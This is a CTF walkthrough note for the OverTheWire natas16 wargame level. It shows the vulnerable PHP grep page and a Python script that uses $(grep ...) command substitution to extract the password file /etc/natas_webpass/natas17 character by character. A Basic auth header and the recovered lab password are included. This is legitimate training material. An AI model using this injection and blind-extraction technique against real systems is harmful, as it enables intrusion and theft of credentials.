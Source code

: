 ```yaml
---
title: natas 16 walkthrough
description: over the wire natas 16
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-16 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 16 walkthrough
    order: 30
---
```

## Description
> Username: natas16
> 
> URL:      http://natas16.natas.labs.overthewire.org
### Source Code
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```

---
## Progress
### Observation
Some characters are filtered. Our payload should contain `/etc/natas_webpass/natas17` in order to interact with the password.
### Payload
QQ
### Program
```python
import requests
from bs4 import BeautifulSoup

def request_with_password(password : str) -> bool:
    payload = f"?needle=$(grep ^{password} /etc/natas_webpass/natas17)&submit=Search"
    return request_with_payload(payload)

def request_with_payload(payload: str):
    header = {
        "Authorization" : "Basic bmF0YXMxNjpUUkQ3aVpyZDVnQVRqajlQa1BFdWFPbGZFakhxajMyVg==",
    }
    url = "http://natas16.natas.labs.overthewire.org/"
    url += payload
    response = requests.get(url, headers=header)
    soup = BeautifulSoup(response.text, 'html.parser')
    content = soup.select('pre')
    return "African" not in content.__str__()

def main():
    success_password = ""
    letters = 'abcdefghijklmnopqrstuvwxyz'
    candidates = letters + letters.upper() + "0123456789"
    while True:
        for candidate in candidates:
            if request_with_password(success_password + candidate):
                success_password += candidate
                print(success_password)
                break
        else:
            print(f"password : {success_password}")
            break

main()
```
XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd

---
## Hint

---
## Solving
### Category
- 
### Techniques
- 
### Tools
- [[grep]]